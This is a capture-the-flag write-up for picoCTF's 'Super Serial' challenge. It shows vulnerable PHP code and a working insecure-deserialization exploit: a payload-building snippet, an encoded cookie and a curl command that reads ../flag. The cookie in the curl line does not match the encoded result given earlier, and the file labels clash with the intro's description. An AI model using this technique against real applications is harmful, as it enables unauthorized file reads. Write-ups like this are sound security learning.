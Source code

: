 # Pico CTF Writeup
## Super Serial

#### Context
This exploit works by leveraging a deserialization vulnerability in PHP code. In this context, three main files are involved:
1. `index.php`: Responsible for setting a cookie after the user logs in.
2. `authentication.php`: Responsible for processing and reading the cookie to grant access.
3. `cookie.php`: Contains the `permissions` class that handles login and the `access_log` class that can be used to read log files.

#### Code Analysis

1. **index.php**:
   ```php
   if(isset($_POST["user"]) && isset($_POST["pass"])){
       $con = new SQLite3("../users.db");
       $username = $_POST["user"];
       $password = $_POST["pass"];
       $perm_res = new permissions($username, $password);
       if ($perm_res->is_guest() || $perm_res->is_admin()) {
           setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
           header("Location: authentication.php");
           die();
       } else {
           $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
       }
   }
   ```

   - **Serialization**: Users who successfully log in will receive a cookie containing a serialized `permissions` object, encoded in base64 and URL-encoded.

2. **cookie.php**:
   ```php
   if(isset($_COOKIE["login"])){
       try{
           $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
           $g = $perm->is_guest();
           $a = $perm->is_admin();
       }
       catch(Error $e){
           die("Deserialization error. ".$perm);
       }
   }
   ```

   - **Deserialization**: The received `login` cookie is deserialized into a `permissions` object.

3. **authentication.php**:
   ```php
   class access_log
   {
       public $log_file;

       function __construct($lf) {
           $this->log_file = $lf;
       }

       function __toString() {
           return $this->read_log();
       }

       function append_to_log($data) {
           file_put_contents($this->log_file, $data, FILE_APPEND);
       }

       function read_log() {
           return file_get_contents($this->log_file);
       }
   }

   if(isset($perm) && $perm->is_admin()){
       $msg = "Welcome admin";
       $log = new access_log("access.log");
       $log->append_to_log("Logged in at ".date("Y-m-d")."\n");
   } else {
       $msg = "Welcome guest";
   }
   ```

   - **read_log()**: This method reads the file specified by the `log_file` property.

#### Exploitation
1. **Manipulating the `access_log` Object**:
   To exploit this vulnerability, we can create an `access_log` object with the `log_file` property set to the file we want to read, in this case, `../flag`.

2. **Serialization and Encoding**:
   We create an `access_log` object with `log_file` set to `../flag`, then serialize it, base64 encode it, and URL encode it.

   ```php
   $exploit_object = new access_log("../flag");
   $serialized_object = serialize($exploit_object);
   $encoded_object = base64_encode($serialized_object);
   $url_encoded_object = urlencode($encoded_object);
   echo $url_encoded_object;
   ```

   Encoded result:
   ```plaintext
   TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
   ```

   Cookie in plaintext:
   ```plaintext
   O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
   ```

3. **Sending the Cookie**:
   We send the crafted cookie using cURL:

   ```bash
   curl -X POST http://mercury.picoctf.net:3449/authentication.php -b "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo7OiIuLi9mbGFnIjt9"
   ```

   This cookie contains a serialized `access_log` object with `log_file` set to `../flag`.

4. **Deserialization and File Reading**:
   - When `authentication.php` processes this cookie, it deserializes the `access_log` object and calls the `__toString()` method.
   - The `__toString()` method calls `read_log()`, which reads and returns the contents of the `../flag` file.
   - Since the contents of `../flag` are the flag we are looking for, the flag will be displayed as part of the deserialization error message.

#### Conclusion
The exploit works because we can create an `access_log` object that defines `log_file` as the file we want to read. The deserialization process then restores this object and executes methods that read and return the file contents, giving us access to the flag.